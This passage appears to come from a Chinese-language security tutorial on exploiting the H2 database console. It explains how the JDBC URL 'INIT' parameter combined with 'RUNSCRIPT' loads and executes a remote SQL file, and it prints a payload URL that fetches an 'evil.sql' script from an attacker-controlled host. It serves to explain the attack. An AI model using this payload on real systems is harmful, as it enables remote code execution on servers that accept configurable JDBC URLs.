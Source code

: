 ![image-20230810183249317](./../.gitbook/assets/image-20230810183249317.png)

返回`CompiledScript`调用其`eval`

低版本H2(1.4.200之前)貌似不支持js脚本，没有`isJavascriptSource`这段代码

## 出网利用——init+runscript

上面这些操作的利用前提都是h2 console成功连接到数据库。

低版本H2(`1.4.193`左右)当连接的数据库不存在时会自动创建，但高版本就不行了

会报错`Database "mem:test" not found.either pre-create it or allow remote database creation`

要么连接Springboot中`spring.datasource.url`指明的数据库，要么需要启动console时带上`-ifNotExists`参数

因此能否不连接进去就能执行命令呢?

h2数据库的JDBC URL中支持的一个配置`INIT`

这个参数表示在连接h2数据库时，会执行一条初始化命令。不过只支持执行一条命令，而且不能包含分号`;` 

上面`CREATE ALIAS`用于命令执行的SQL语句都不止一条。可以利用`RUNSCRIPT`命令。`RUNSCRIPT`用于执行一个SQL文件

```
jdbc:h2:mem:test;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8888/evil.sql'
```

这个方法能用在任何能配置JDBC URL且依赖了H2的地方
